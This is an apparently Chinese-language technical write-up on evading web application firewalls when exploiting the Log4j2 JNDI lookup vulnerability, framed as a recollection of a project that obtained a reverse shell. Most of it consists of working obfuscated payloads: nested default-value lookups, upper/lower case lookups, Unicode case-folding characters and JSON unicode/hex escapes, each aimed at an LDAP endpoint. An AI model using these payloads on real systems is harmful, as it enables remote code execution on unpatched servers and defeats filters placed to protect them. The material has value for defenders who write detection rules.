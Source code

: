 
##  0x00 原理介绍
     
         去年有个项目，有WAF，然后进行了绕过，成功反弹，现在在回忆记录一下。
     
     log4j2输出日志的时候除了常见的变量替换，还支持远程获取相应的内容，获取远程内容是通过lookup功能提供，
     
     ## 变量替换如下
     
     logger.info("user name: {}, alias name: {}", userName, aliasName)
     
     获取远程内容支持jndi
     
## WAF绕过总结

         从log4j-2.15.0-rc2开始，默认关闭了Lookups功能，需要修改配置才能结合各种绕过方式，所以意义不大，2.16.0开始，移除了Lookups功能，然后在受影响版本log4j2.0-beta9 <= 版本 log4j <= 2.14.1中，由于waf多拦截jndi等关键字，可通过如下几种方式进行绕过。
         
         :- 是一个赋值关键字，如果程序处理到 ${aaaa:-bbbb} 这样的字符串，处理的结果将会是 bbbb，借助此特性，可构造如下waf绕过
logg.info("${${::-J}ndi:ldap://127.0.0.1:1389/Calc}");


Lookups中除了jndi还存在Upper、Lower等方式，可变换大小写，可构造如下waf绕过
logg.info("${${lower:J}ndi:ldap://127.0.0.1:1389/Calc}");
logg.info("${${upper:j}ndi:ldap://127.0.0.1:1389/Calc}");


同时也可以利用一些特殊字符的大小写转化的问题
ı => upper => i (Java 中测试可行)
ſ => upper => S (Java 中测试可行)
İ => upper => i (Java 中测试不可行)
K => upper => k (Java 中测试不可行)
logg.error("${jnd${upper:ı}:ldap://127.0.0.1:1389/Calc}");


现在数据传输很多都是 json 形式，所以在 json 中我们也可以进行尝试
像 Jackson 和 fastjson 又有 unicode 和 hex 的编码特性，所以就可以尝试编码绕过
{"key":"\u0024\u007b"}
{"key":"\x24\u007b"}
